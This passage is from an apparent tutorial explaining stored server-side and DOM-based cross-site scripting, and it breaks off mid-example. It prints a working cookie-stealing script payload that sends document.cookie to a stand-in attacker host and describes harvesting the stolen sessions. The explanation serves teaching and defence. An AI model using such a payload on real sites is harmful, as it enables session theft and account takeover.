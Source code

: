 The Display Name, when used in the comments section, is vulnerable to a stored server-side XSS attack.

The attacker updates their Display Name to be a malicious script. This script tries to fetch an image, from a website the attacker controls, and sends the user's cookies along with it.
```javascript
<script>
	new Image().src = "http://attackersite.com/?" + document.cookie;
</script>
```

Once the attacker's website is setup to log the cookies, the attacker leaves innocuous comments on blogs all over the site. After a few hours, the cookies start rolling in and they have lots of accounts to try and take over.

This attack is similar to the reflected server-side attack, but different in how the malicious code gets inserted.

In the reflected server-side attack, the attacker inserts malicious code into the URL.

In the stored server-side attack, the attacker inserts malicious code into storage, like a database. They don't have to send out links. Any page where the user-controlled value is shown, the attack could occur.

**Stored attacks are much easier for attackers and much worse for potential victims**.

---

### DOM-Based XSS (Client-Side)
This type of attack can be confusing because it can be a reflected or a stored attack. What's different is _where_ the attack occurs.

In a DOM-based XSS attack, everything happens in the browser (the client). It doesn't require any server-side code.

An attacker can insert malicious code into the URL (reflected attack) or storage (stored attack). From there, the malicious code is then displayed somewhere within the browser using JavaScript.

I know this can be confusing, so let's see an example.

#### Example of a DOM-Based XSS Attack (Client-Side)
Let's say there's a website which uses the following URL to display a user's name:

`http://example.com/index.html#name=Stacie`

Within the page, unsafe JavaScript code takes the value from `name` and displays it within the web page. The user then sees something like this:

**HTML:** 

`<h1>Welcome, Stacie</h1>`

**Web Page:** 

# Welcome, Stacie

An attacker discovers this field is vulnerable to a DOM-based (reflected) XSS attack.

